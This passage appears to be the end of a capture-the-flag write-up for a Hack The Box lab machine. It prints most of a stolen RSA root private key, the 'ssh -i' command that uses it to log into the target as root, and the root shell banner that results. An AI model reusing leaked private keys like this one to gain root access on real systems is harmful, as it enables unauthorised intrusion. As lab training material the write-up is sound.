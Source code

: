 ```
HS9aZmAzY5/U6wEtJi4mx3QIoVahytMgcxd7qoicCYyVm73HFQsZ58L+5QflygH4
dpbptPOnNmLUkWFXcK3bmlmrEyuafS6z68oDFeAZz8Dg2D2qXWfhdlN4GVstlxSI
skH5sAECgYEAySOp7KOZJVpstF8zjn+/OZowEF4iSHnaGAX64B6GgWwXQURn3wVq
tlqDO5m5vIexe2tyFDSVe5otWtzQvbPNkjpD7/kglGTbT9PCU/Dgb5pTmOxBPi9a
1W8+q7lwiXLIRb4NB+BqDz0yI924BnZt9rukzm9650Rrbala0HZxhIECgYEAxCux
RQUzgSx7YdzThvB8sAzQJj2gNAbwEA9Y56I0pQLvTNoGQY8V8IYBrlvW935kLfcf
xz8j5VNt1BizDQjG8j5FfVcU6VE98/OMgn4XKd6nl9sOoQBXzssjUF+3AIhn5DsK
Q/IymTZEmhfGAt9k6dE4WH8qffea/E7qJY+pkokCgYAdatLiYjb2yJfXdYkD0Vk1
YoCfFDVtZizokI9VkgFYEmgASrHqY09tJiXFZMFOeoYRp/BCVkJ6ll0Fyf/Zjt+F
AHKJOWVzbqDItw7X2gXpLKgHWJ5eKuzdBG0lDnUQFTKHSLl9Kmw4mFmp9zZ/83g3
us/qxVEzW8Vef4Nhs8D8gQKBgDtsMMqDhNKAMu+2AK1Dc8GwX+z1he28nEOBIqEn
1WKWvP4+nN6HBVJShXfXggp+UsJJtWqZiboRx5cT1EkCe6Etk8cf9cmnPmkDQXDV
2RZpx8KMLKZAgFi31/6kv759k1rjN3zVhNY8RhOXV/fOy7a4FaVY//ogYuZC0VKH
bgphAoGBAKGyJQe/b6rUkpzvIBxbGt9Hw1kpLr07VCdPQb1MCdCU4l+mlDD5NBN3
mzygp6MTi+TvN3PhxlfAmUPbz0qw+3aX95pt2cQ492wLOe+RsVsKtvDTgH/2+DUe
2qnb+Jd6ERs3jmBeuuavC2O5ajhyLt1xL3uF5UVpoenCYlYuOvL4
-----END RSA PRIVATE KEY-----
```

`ssh -i id_rsaRoot root@registry.htb`
```
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

 System information disabled due to load higher than 2.0
Last login: Sun Jun 12 21:50:44 2022 from 10.10.14.19
root@bolt:~# 
```

Pwned :)
